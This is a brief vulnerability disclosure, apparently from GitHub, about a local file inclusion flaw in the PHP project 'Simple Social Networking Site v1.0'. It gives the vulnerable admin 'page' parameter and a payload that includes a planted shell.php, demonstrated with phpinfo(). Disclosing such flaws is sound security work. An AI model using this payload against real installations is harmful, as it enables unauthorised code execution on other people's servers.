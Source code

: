 # Simple Social Networking Site v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: ip/sns/admin/?page=

Vulnerability location: ip/sns/admin/?page=, p

Payload: ip/sns/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/166926955-cb2893fe-2282-4e85-897e-76e892d20434.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166926826-1c256fc5-9342-4ac3-bbfb-2459f8dc6b73.png)

And visit http://sns/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166927034-eab4e480-abf4-4881-8038-eb241afa1d97.png)
